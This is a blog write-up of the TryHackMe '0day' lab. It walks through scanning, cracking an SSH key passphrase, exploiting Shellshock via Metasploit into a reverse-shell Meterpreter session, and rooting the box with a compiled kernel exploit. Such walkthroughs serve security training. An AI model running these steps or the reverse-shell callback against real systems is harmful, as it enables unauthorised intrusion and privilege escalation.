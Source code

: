 ```yaml
---
layout: default
title : 0day - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[0day](https://tryhackme.com/room/0day) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/0day$ nmap -sC -sV 10.10.86.209
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 15:38 EST
Nmap scan report for 10.10.86.209
Host is up (0.095s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

```
bvr0n@kali:~/CTF/THM/0day$ ffuf -c -u http://10.10.86.209/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

________________________________________________

.htpasswd               [Status: 403, Size: 288, Words: 21, Lines: 11]
.hta                    [Status: 403, Size: 283, Words: 21, Lines: 11]
.htaccess               [Status: 403, Size: 288, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 311, Words: 20, Lines: 10]
backup                  [Status: 301, Size: 312, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 287, Words: 21, Lines: 11]
cgi-bin                 [Status: 301, Size: 313, Words: 20, Lines: 10]
css                     [Status: 301, Size: 309, Words: 20, Lines: 10]
img                     [Status: 301, Size: 309, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43]
js                      [Status: 301, Size: 308, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 38, Words: 7, Lines: 2]
secret                  [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 292, Words: 21, Lines: 11]
uploads                 [Status: 301, Size: 313, Words: 20, Lines: 10]
```

`/backup/` have a SSH private key, Let's crack it for a password.

```
bvr0n@kali:~/CTF/THM/0day$ sudo john test --wordlist=/home/bvr0n/Documents/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)
```
This was eventually a rabbit hole haha, i decided to bring `nikto` he may help me :

```
bvr0n@kali:~/CTF/THM/0day$ nikto -h 10.10.86.209
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.86.209
+ Target Hostname:    10.10.86.209
+ Target Port:        80
+ Start Time:         2020-11-10 15:54:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
```
Nikto was able to find a vulnerability named `Shellshock`.

## Shellshock :
```
Shellshock is effectively a Remote Command Execution vulnerability in BASH.
The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable.
```
* Any *NIX OS may be vulnerable
* Any product / appliance implementing bash may be vulnerable
* Vulnerable since version 1.03 of Bash released in September 1989
* RCE via Apache with mod_cgi, CGI Scripts, Python, Perl
* RCE on DHCP clients using Hostile DHCP ServerOpenSSHRCE/Privilege escalation

Shellshock Remote Command Execution via Apache CGI Script.

##### Victim requirements:

* Apache web server-mod_cgienabled
* -Helloworld.cgiscript

##### Attacker requirements:

* Listener running to accept incoming connections

## Shellsock Exploitation :

I searched for it in metasploit and found 11 modules, but this one matches what we need :

```
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)7
```
This is what we need to configure :

```
> set LHOST tun0
> set RHOSTS 10.10.86.209
> set TARGETURI /cgi-bin/test.cgi
```
Type exploit and wait for it :

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.8.14.157:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.86.209
[*] Meterpreter session 1 opened (10.8.14.157:4444 -> 10.10.86.209:55383) at 2020-11-10 16:09:04 -0500

meterpreter >
```

## Privilege Escalation :

So i did a few enumeration and i found out that this machine is running an outdated kernel :o

```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for this version and found an [Exploit](https://www.exploit-db.com/exploits/37292) for it, so let's get this root.

I uploaded the exploit to the machine via my machine and compiled it :

```
www-data@ubuntu:/tmp$ gcc Kernel_exploit.c -o kec
www-data@ubuntu:/tmp$ ./kec 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id && whoami
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root
```


<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>

